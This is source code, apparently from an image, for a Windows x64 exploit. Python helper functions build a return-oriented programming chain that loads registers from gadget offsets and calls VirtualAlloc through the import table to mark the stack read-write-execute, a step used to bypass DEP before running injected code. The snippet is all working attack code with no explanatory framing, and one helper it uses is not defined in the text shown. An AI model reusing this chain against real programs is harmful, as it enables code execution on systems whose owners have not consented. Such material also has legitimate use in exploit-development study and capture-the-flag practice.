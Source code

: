 ```python

# destroys rax, r13
def load_rdx(value):
 r = b""
 r += p64(pbase + pop_r13)
 r += p64(value)
 r += p64(pbase + pop_rax)
 r += p64(pbase + pop_rax) # fix call() in r13 gadget
 r += p64(pbase + mov_rdx_r13)
 return r

# destroys rdx, rsi, r13
def load_r9(value):
 r = b""
 r += p64(pbase + pop_rsi) # make cmove condition always work
 r += p64(0x6348ffff)
 r += p64(pbase + cmp_esi_0x6348ffff)
 r += load_rdx(value) # destroys rax, r13
 r += p64(pbase + cmove_r9_rdx)
 return r

# destroys rbx, rax
def rsp_to_rcx():
 r = b""
 r += p64(pbase + pop_rbx)
 r += p64(0)
 r += p64(pbase + 0x0000000000001fa0) # xor rbx, rsp; ret; 
 r += p64(pbase + 0x0000000000001fc2) # push rbx; pop rax; ret;
 r += p64(pbase + 0x0000000000001f80) # mov rcx, rax; ret; 
 return r

def load_rcx(value):
 r = b""
 r += p64(pbase + pop_rcx)
 r += p64(value)
 return r

# destroys rbx, r12, rsi
def jmp_IAT(address):
 r = b""
 r += p64(pbase + pop_rbx)
 r += p64(address)
 r += p64(pbase + jmp_qw_rbx)
 # fix stack after function call
 r += p64(pbase + 0x000000000000a99a) # pop rsi; pop r12; ret; 
 r += p64(0xdeadbeefdeadbeef)
 r += p64(0xdeadbeefdeadbeef)
 return r

# rop chain
rop = b""

# use VirtualAlloc as VirtualProtect to make Stack RWX
rop += load_r8(0x1000)  # flAllocationType -> only MEM_COMMIT
rop += load_r9(0x40)    # flProtect - RWX  -> PAGE_EXECUTE_READWRITE
rop += load_rdx(0x1000) # dwSize           -> one page
rop += rsp_to_rcx()     # lpAddress
rop += jmp_IAT(VirtualAlloc)
```
